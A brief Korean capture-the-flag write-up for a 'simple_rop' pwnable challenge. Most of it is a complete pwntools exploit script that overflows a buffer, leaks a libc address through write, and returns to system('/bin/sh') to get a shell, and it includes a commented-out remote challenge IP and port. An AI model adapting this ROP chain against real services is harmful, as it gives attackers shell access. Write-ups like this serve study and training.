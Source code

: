# simple_rop
### #rop #pwnable

10분 컷 했던 문제. 간단히 정리만 한다.

![prob](../../.images/simple_rop1.png)

![prob2](../../.images/simple_rop2.png)

bof 를 일으키는 소스. NX 도 걸려있으므로, 제목에 따라 rop 기법을 이용하면 될 것 같았다.

여타 특별한 함수는 없고, `write` 와 `read` 함수가 들어있으므로 이를 이용해서 **libc 주소** 를 leak 해보았다.

rop gadget 은 `ROP gadget` 툴을 이용하여 뽑아냈다.

그리고 `main` 함수로 다시 회귀시켜서 `system("/bin/sh\x00");` 함수가 실행될 수 있도록 rip 컨트롤을 진행하였다.

```python
# simple_rop.py
from pwn import *
binary=ELF("./simple_rop")
libc=ELF("/lib/x86_64-linux-gnu/libc.so.6")
read_got=binary.got['read']
write_plt=binary.plt['write']
main_addr=binary.symbols['main']
system_off=libc.symbols['system']
read_off=libc.symbols['read']
binsh=0x1b40fa
prdi=0x4005e3
prsi=0x4005e1

s=process("./simple_rop")
#s=remote("3.34.53.13",4147)
pause()
s.recvuntil("?")

#first chance
payload="a"*24
payload+=p64(prdi)
payload+=p64(0x1)
payload+=p64(prsi)
payload+=p64(read_got)
payload+=p64(0x0)
payload+=p64(write_plt)
payload+=p64(main_addr)
s.sendline(payload)

# second chance
read=u64(s.recv(8))
libc_base=read-read_off
sys=libc_base+system_off
s.recvuntil("?")
payload2="a"*24
payload2+=p64(prdi)
payload2+=p64(libc_base+binsh)
payload2+=p64(sys)
s.sendline(payload2)
s.interactive()
```

.

.

.

**Contact :** a42873410@gmail.com